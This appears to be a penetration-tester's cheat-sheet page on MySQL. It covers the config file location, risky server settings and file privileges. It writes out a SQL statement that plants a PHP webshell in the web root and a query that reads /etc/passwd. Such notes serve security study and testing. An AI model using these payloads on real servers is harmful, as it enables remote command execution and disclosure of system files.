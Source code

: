 Config file: `/etc/mysql/mysql.conf.d/mysqld.cnf` 
Nmap script: _mysql*_

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```
### Dangerous Settings

| **Settings**       | **Description**                                                                                                                                                                                                                                                           |
| ------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `user`             | Sets which user the MySQL service will run as.                                                                                                                                                                                                                            |
| `password`         | Sets the password for the MySQL user.                                                                                                                                                                                                                                     |
| `admin_address`    | The IP address on which to listen for TCP/IP connections on the administrative network interface.                                                                                                                                                                         |
| `debug`            | This variable indicates the current debugging settings                                                                                                                                                                                                                    |
| `sql_warnings`     | This variable controls whether single-row INSERT statements produce an information string if warnings occur.                                                                                                                                                              |
| `secure_file_priv` | This variable is used to limit the effect of data import and export operations. (for example by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function). |
> `system schema` (`sys`) and `information schema` (`information_schema`) are most important databases.

If [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) are allowed, we can execute C/C++ code as a function within SQL ([GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys))

# Write Local Files
`MySQL` does not have a stored procedure like `xp_cmdshell`, but we can write to a location in the file system that executes our commands for us.
```mysql
> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
>**NOTE:** a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations as mentioned. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.
# Read File
```mysql
> select LOAD_FILE("/etc/passwd");
```
# Tools
- [[MySQL - tool]]
- [[dbeaver]]